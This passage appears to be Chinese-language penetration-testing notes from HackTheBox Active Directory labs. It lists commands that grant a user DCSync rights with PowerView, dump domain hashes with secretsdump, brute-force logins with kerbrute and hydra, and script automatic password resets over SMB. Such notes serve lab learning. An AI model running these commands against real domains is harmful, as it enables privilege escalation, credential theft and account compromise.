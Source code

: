   ```powershell
  # writeDac 权限 把用户赋予 DCSync 权限 
  $pass = convertto-securestring 'zf1yolo' -AsPlainText -Force
  $cred = New-Object System.Management.Automation.PSCredential('htb\zf1yolo', $pass)
  Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zf1yolo -Rights DCSync
  ```

  ```bash
  # 导出域内 hash
  secretsdump.py zf1yolo:zf1yolo@10.10.10.161
  ```



- kerbrute 爆破密码

  把用户名字典和密码字典整理成 `username:password` 的形式

  ```bash
  for each in $(cat user.list);do for i in $(cat password.list);do echo $each:$i >> user_pass.list;done;done
  ```

  ```bash
  ./kerbrute_linux_amd64 bruteforce --dc 10.10.10.193 -d fabricorp.local  user_pass.list
  ```

  

- hydra 爆破 smb

  ```bash
  hydra -L user.list -P password.list  10.10.10.193 smb
  ```



- smbpwd 修改密码

  ```bash
  └─# smbclient -U bhult -L \\\\10.10.10.193
  Password for [WORKGROUP\bhult]:  Fabricorp01
  session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
  ```

  这时候就得修改密码

  ```bash
  smbpasswd -r 10.10.10.193 bhult
  ```



- 对于一种情形，举个例子，比如已知一个用户的密码，但是这个密码提示要修改，而且过几分钟后又得修改。我们要根据这组凭据来收集更多的信息，比如 smb 、rpc、ldap 等等。这时候就得动态获取，写脚本自动化实现会方便些

  ```bash
  if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s bhult; echo "password reset to $pass"; fi;
  ```

